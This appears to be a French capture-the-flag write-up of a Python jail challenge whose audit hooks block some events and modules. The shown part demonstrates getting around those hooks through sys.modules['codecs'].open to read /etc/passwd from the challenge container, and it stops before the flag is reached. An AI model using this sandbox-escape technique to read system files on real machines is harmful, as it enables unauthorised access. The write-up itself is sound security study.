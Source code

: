 # Why not a sandbox ? - PWN - 500

> Votre but est d'appeler la fonction print_flag pour afficher le flag.

Nous continuons sur la lancée des challenges pwn avec un challenge qui semble être une pyjail.
Comme dit dans l'énoncé, nous devons appeler la fonction print_flag pour afficher le flag.

Soit, commençons.

## Énumération de l'environnement

On essaie dans un premier temps d'appeler la fonction "print_flag" (même si ça serait trop facile)

```
>>> print_flag
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
NameError: name 'print_flag' is not defined
```

Ok, bon ça commence bien. La fonction n'est même pas définie, on va devoir aller chercher un peu plus loin.
En jouant un peu avec l'environnement, on se rend compte de plusieurs choses:

* Certains événements semblent être filtrés, et notifiés par le message **Exception: Action interdite**
* Certains modules semblent être interdits, comme nous le dit le message **Exception: Module non autorisé**

Le message **Exception ignored in audit hook** est également spécifié en plus des deux précédents.

Cela semble être réalisé via les "[Python Runtime Audit Hooks](https://www.python.org/dev/peps/pep-0578/)", disponibles depuis la version 3.8 de Python.
Cette fonctionnalité permet entre autres d'ajouter des hooks qui vont permettre d'intercepter un événement.

On remarque que 2 modules peuvent être importés:

* sys
* ctypes

En énumérant le module sys, nous remarquons que le module **codecs** est présent, et contient la fonction **open**.
Essayons de lire un fichier avec:

```
>>> import sys
>>> codecs = sys.modules['codecs']
>>> codecs.open('/etc/passwd').read()
'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/bin/false\nctf-init:x:1000:1000::/home/ctf-init:\nctf:x:1001:1001::/home/ctf:\n'
```
Super, on peut lire (et écrire) des fichiers sur le système ! 
